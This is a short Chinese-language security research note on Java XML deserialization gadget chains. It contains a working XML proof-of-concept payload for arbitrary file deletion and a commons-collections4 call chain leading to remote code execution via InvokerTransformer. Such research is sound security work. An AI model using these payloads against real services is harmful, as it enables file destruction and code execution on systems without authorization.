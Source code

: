 ##### 任意文件删除

忘记保存结果了。

poc

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
                            <tempFile>D:\data\1.txt</tempFile>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

##### RCE

基于commons-collections4。发现了如下调用链

```
com/sun/xml/internal/bind/v2/runtime/unmarshaller/Base64Data.get()[B (0)
  com/sun/xml/internal/ws/encoding/MIMEPartStreamingDataHandler$StreamingDataSource.getInputStream()Ljava/io/InputStream; (0)
  com/sun/xml/internal/org/jvnet/mimepull/MIMEPart.read()Ljava/io/InputStream; (0)
  com/sun/xml/internal/org/jvnet/mimepull/DataHead.read()Ljava/io/InputStream; (0)
  com/sun/xml/internal/org/jvnet/mimepull/MIMEMessage.makeProgress()Z (0)
  org/apache/commons/collections4/iterators/ObjectGraphIterator.hasNext()Z (0)
  org/apache/commons/collections4/iterators/ObjectGraphIterator.updateCurrentIterator()V (0)
  org/apache/commons/collections4/iterators/ObjectGraphIterator.findNextByIterator(Ljava/util/Iterator;)V (0)
  org/apache/commons/collections4/functors/InvokerTransformer.transform(Ljava/lang/Object;)Ljava/lang/Object; (0)
  java/lang/reflect/Method.invoke(Ljava/lang/Object;[Ljava/lang/Object;)Ljava/lang/Object; (0)
```

这条链发现是一个熟悉的老面孔。在分析到ObjectGraphIterator.updateCurrentIterator方法时，发现没有必要走findNextByIterator分支。可以直接调用到transform函数。

![image-20210119114005449](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144923-757255.png)
